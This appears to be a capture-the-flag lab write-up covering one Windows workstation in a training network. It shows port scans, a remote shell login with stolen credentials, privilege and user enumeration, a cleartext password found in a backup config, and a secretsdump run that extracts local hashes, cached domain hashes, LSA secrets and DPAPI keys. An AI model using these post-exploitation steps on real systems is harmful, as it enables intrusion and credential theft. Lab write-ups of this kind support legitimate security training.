

As usual we can start by using RUSTSCAN to check all the services alive on the TCP protocoll.

```
PORT      STATE SERVICE      REASON         VERSION
135/tcp   open  msrpc        syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 64 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 64 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: CORP)
5357/tcp  open  http         syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Service Unavailable
|_http-server-header: Microsoft-HTTPAPI/2.0
5985/tcp  open  http         syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
47001/tcp open  http         syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc        syn-ack ttl 64 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 64 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 64 Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack ttl 64 Microsoft Windows RPC
49166/tcp open  msrpc        syn-ack ttl 64 Microsoft Windows RPC
49167/tcp open  msrpc        syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.12.X (85%)
OS CPE: cpe:/o:ibm:zos:1.12
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: IBM z/OS 1.12 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=7/1%OT=135%CT=%CU=%PV=Y%G=N%TM=668289EE%P=x86_64-pc-linux-gnu)
SEQ(SP=108%GCD=1%ISR=10A%TI=I%CI=RD%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 15.611 days (since Sat Jun 15 22:11:11 2024)
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: Host: WS02; OS: Windows; CPE: cpe:/o:microsoft:windows
```

And do the same on the first 1k(ish) ports alive on the UDP protocoll via NMAP this time.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# nmap -F -sU 172.16.1.101
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 12:16 CEST
Stats: 0:01:12 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 78.67% done; ETC: 12:18 (0:00:20 remaining)
Nmap scan report for 172.16.1.101
Host is up (0.060s latency).
Not shown: 99 open|filtered udp ports (no-response)
PORT    STATE SERVICE
137/udp open  netbios-ns

Nmap done: 1 IP address (1 host up) scanned in 106.87 seconds
```

&nbsp;

# Back on Track

After I gained the cleartext credentials form the WSADM workstation of the user wsadmin@corp.local I noticed that he can also manage this machine:



And seems like we have some more access on the machine via WINRM:

```
*Evil-WinRM* PS C:\Users\wsadmin\Desktop> whoami
corp\wsadmin
*Evil-WinRM* PS C:\Users\wsadmin\Desktop> hostname
WS02
*Evil-WinRM* PS C:\Users\wsadmin\Desktop> cat flag.txt
OFFSHORE{mimikatz_d03s_th3_j0b}
*Evil-WinRM* PS C:\Users\wsadmin\Desktop>
```

&nbsp;

# Post Exploitations

Now I will look around and check what other users exist on the machine.

```
*Evil-WinRM* PS C:\Users> ls


    Directory: C:\Users


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d----         7/17/2018   5:21 PM            administrator
d----         7/17/2018   5:21 PM            ben
d----         7/17/2018   5:21 PM            ben.WS02
d----         7/17/2018   5:21 PM            bob
d----         7/17/2018   5:21 PM            iamtheadministrator
d----         4/17/2021   2:35 PM            ned.flanders_adm
d-r--         4/12/2011   3:51 AM            Public
d----         7/17/2018   5:21 PM            wsadmin


*Evil-WinRM* PS C:\Users>
```

I see we have "godmode" on on the machine.

```
*Evil-WinRM* PS C:\> whoami /all

USER INFORMATION
----------------

User Name    SID
============ ==============================================
corp\wsadmin S-1-5-21-2291914956-3290296217-2402366952-1820


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ===============================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators               Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                 Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State
=============================== ========================================= =======
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Enabled
SeSecurityPrivilege             Manage auditing and security log          Enabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Enabled
SeLoadDriverPrivilege           Load and unload device drivers            Enabled
SeSystemProfilePrivilege        Profile system performance                Enabled
SeSystemtimePrivilege           Change the system time                    Enabled
SeProfileSingleProcessPrivilege Profile single process                    Enabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Enabled
SeCreatePagefilePrivilege       Create a pagefile                         Enabled
SeBackupPrivilege               Back up files and directories             Enabled
SeRestorePrivilege              Restore files and directories             Enabled
SeShutdownPrivilege             Shut down the system                      Enabled
SeSystemEnvironmentPrivilege    Modify firmware environment values        Enabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Enabled
SeUndockPrivilege               Remove computer from docking station      Enabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Enabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege   Increase a process working set            Enabled
SeTimeZonePrivilege             Change the time zone                      Enabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Enabled
```

Checking under C:\\Backups I see some credentials hehe:

```
*Evil-WinRM* PS C:\backups> ls


    Directory: C:\backups


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---         4/26/2018   2:19 PM       1109 web.config_sample


*Evil-WinRM* PS C:\backups> cat web.config_sample
<configuration>
    <system.web>
        <authentication mode="Forms">
            <credentials passwordFormat="Clear">
                <user name="svc_iis" password="Vintage!" />
            </credentials>
        </authentication>
        <authorization>
            <allow users="test" />
            <deny users="*" />
        </authorization>
    </system.web>
    <location path="admin">
        <system.web>
            <authorization>
                <allow roles="admin" />
                <deny users="*"/>
            </authorization>
        </system.web>
    </location>
    <system.webServer>
        <directoryBrowse enabled="true" />
        <security>
            <authentication>
                <anonymousAuthentication enabled="false" />
                <basicAuthentication enabled="true" />
                <windowsAuthentication enabled="false" />
            </authentication>
        </security>
    </system.webServer>
</configuration>
*Evil-WinRM* PS C:\backups>
```

And I will download all the secrets from LSASS.exe, unfortunately I don't see exra suff here.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/www]
└─# impacket-secretsdump -system systemic.txt -security security.txt -sam samantha.txt LOCAL
Impacket v0.12.0.dev1+20240604.210053.9734a1af - Copyright 2023 Fortra

[*] Target system bootKey: 0x54a7f6c97fd9cf227f4854cdecc675c2
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
justalocaladmin:1002:aad3b435b51404eeaad3b435b51404ee:ab09ba4a2a1df93c3617ac84105ee731:::
[*] Dumping cached domain logon information (domain/username:hash)
CORP.LOCAL/iamtheadministrator:$DCC2$10240#iamtheadministrator#3c1e5b31c203b2b52920f7ce19110ab4: (2023-11-13 13:49:34)
CORP.LOCAL/wsadmin:$DCC2$10240#wsadmin#fd88913b9ecd31d42d450b4c92df1c7c: (2018-06-26 03:12:57)
CORP.LOCAL/ned.flanders_adm:$DCC2$10240#ned.flanders_adm#f29265de0b0a15746aaba163f152d716: (2021-04-19 17:01:54)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:2000430028002c00580048002f0043003c00500061007a00310041003e007300460020007a0066002e006a00600056002f005e005f0054002e002200410071002f006c0023006300440069007400520077003c00420040006d002e0037002f0065002c003b004f005e004d002a005200480071002f007300710046006c004a006200210047004c006f00740049005c004e00350066003600560035003700310051005a0029004b004f003b002a005d004d0067006e004800570024003c005b007400780052004e0079006700480079003000410078006a0060005b0065002f00650067006b005400350062006c003400
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:c72e375bed0918ced38b7a8d3e7f5e09
[*] DefaultPassword 
(Unknown User):Workstationadmin1!
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x4710434207883cdf6d1358ed9a8baeefd80bae5c
dpapi_userkey:0x72351cfde99a602e9db7e43c4a6af6888ce743a8
[*] NL$KM 
 0000   72 C4 A9 DE F2 8D 95 21  1E 5F EA CD 63 3F A8 36   r......!._..c?.6
 0010   31 8A 48 04 5C E4 7B 3D  98 AE 6D 70 A4 07 56 23   1.H.\.{=..mp..V#
 0020   76 15 8F 1C 29 6F 33 10  B7 38 FA B4 F6 6A 5B 6E   v...)o3..8...j[n
 0030   52 52 F3 55 B3 BB D6 9E  D1 E0 6B 48 91 83 F8 29   RR.U......kH...)
NL$KM:72c4a9def28d95211e5feacd633fa836318a48045ce47b3d98ae6d70a407562376158f1c296f3310b738fab4f66a5b6e5252f355b3bbd69ed1e06b489183f829
[*] Cleaning up...
```

I feel we can move on to WEB-WIN01.

&nbsp;

&nbsp;